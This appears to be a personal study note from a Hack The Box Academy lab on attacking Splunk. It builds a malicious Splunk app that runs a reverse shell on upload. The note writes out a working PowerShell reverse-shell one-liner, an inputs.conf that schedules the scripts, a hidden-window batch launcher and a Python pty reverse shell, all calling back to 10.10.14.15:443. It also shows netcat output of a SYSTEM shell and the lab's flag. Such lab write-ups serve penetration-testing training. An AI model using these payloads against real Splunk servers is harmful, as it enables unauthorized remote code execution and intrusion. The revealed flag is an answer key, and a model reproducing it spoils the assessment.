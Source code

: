 # Attacking Splunk

## Abusing Built-In Functionality

We can use [this](https://github.com/0xjpuff/reverse\_shell\_splunk) Splunk package to assist us. The `bin` directory in this repo has examples for [Python](https://github.com/0xjpuff/reverse\_shell\_splunk/blob/master/reverse\_shell\_splunk/bin/rev.py) and [PowerShell](https://github.com/0xjpuff/reverse\_shell\_splunk/blob/master/reverse\_shell\_splunk/bin/run.ps1).&#x20;

first we need to create a custom Splunk application using the following directory structure.

```shell-session
tree splunk_shell/

splunk_shell/
├── bin
└── default
```

* bin -> will contain scripts we want to run
* default -> will contain inputs.conf

**PowerShell one-liner reverse shell**

{% code overflow="wrap" %}
```powershell-session
$client = New-Object System.Net.Sockets.TCPClient('10.10.14.15',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```
{% endcode %}

**inputs.conf** tells Splunk which script to run and any other conditions

we set the app as enabled and tell Splunk to run the script every 10 seconds. The interval is always in seconds, and the input (script) will only run if this setting is present.

```shell-session
cat inputs.conf 

[script://./bin/rev.py]
disabled = 0  
interval = 10  
sourcetype = shell 

[script://.\bin\run.bat]
disabled = 0
sourcetype = shell
interval = 10
```

We need the .bat file, which will run when the application is deployed and execute the PowerShell one-liner.

```batch
@ECHO OFF
PowerShell.exe -exec bypass -w hidden -Command "& '%~dpn0.ps1'"
Exit
```

Once the files are created, we can create a tarball or `.spl` file.

```shell-session
tar -cvzf updater.tar.gz splunk_shell/

splunk_shell/
splunk_shell/bin/
splunk_shell/bin/rev.py
splunk_shell/bin/run.bat
splunk_shell/bin/run.ps1
splunk_shell/default/
splunk_shell/default/inputs.conf
```

next step is to choose `Install app from file` and upload the application.

<figure><img src="https://academy.hackthebox.com/storage/modules/113/install_app.png" alt=""><figcaption><p>Install app from file</p></figcaption></figure>

start a listener using Netcat or [socat](https://linux.die.net/man/1/socat).

```shell-session
sudo nc -lnvp 443
```

On the `Upload app` page, click on browse, choose the tarball we created earlier and click `Upload`

<figure><img src="https://academy.hackthebox.com/storage/modules/113/upload_app.png" alt=""><figcaption><p>https://10.129.201.50:8000/en-US/manager/appinstall/_upload?breadcrumbs=Settings%7C%2Fmanager%2Fsearch%2F%09Apps%7C%2Fmanager%2Fsearch%2Fapps%2Flocal</p></figcaption></figure>

As soon as we upload the application, a reverse shell is received as the status of the application will automatically be switched to `Enabled`.

```shell-session
sudo nc -lnvp 443

listening on [any] 443 ...
connect to [10.10.14.15] from (UNKNOWN) [10.129.201.50] 53145


PS C:\Windows\system32> whoami

nt authority\system


PS C:\Windows\system32> hostname

APP03


PS C:\Windows\system32>
```

* we could proceed to enumerate the target for credentials in the registry, memory, or stored elsewhere on the file system to use for lateral movement within the network

{% hint style="info" %}
If we were dealing with Linux host, we would need to edit the `rev.py` Python script before creating the tarball and uploading the custom malicious app
{% endhint %}

```python
import sys,socket,os,pty

ip="10.10.14.15"
port="443"
s=socket.socket()
s.connect((ip,int(port)))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn('/bin/bash')
```

## Assessment

Attack the Splunk target and gain remote code execution. Submit the contents of the flag.txt file in the c:\loot directory.



edit ps1 file and add our IP address and PORT to connect then upload through&#x20;

Splunk enterprise > App > Manage App > install app from file > browse&#x20;

listen before clicking upload.

<figure><img src="../../../.gitbook/assets/ภาพ (12).png" alt=""><figcaption><p>nt authority\system</p></figcaption></figure>

<figure><img src="../../../.gitbook/assets/ภาพ.png" alt=""><figcaption><p>l00k_ma_no_AutH!</p></figcaption></figure>

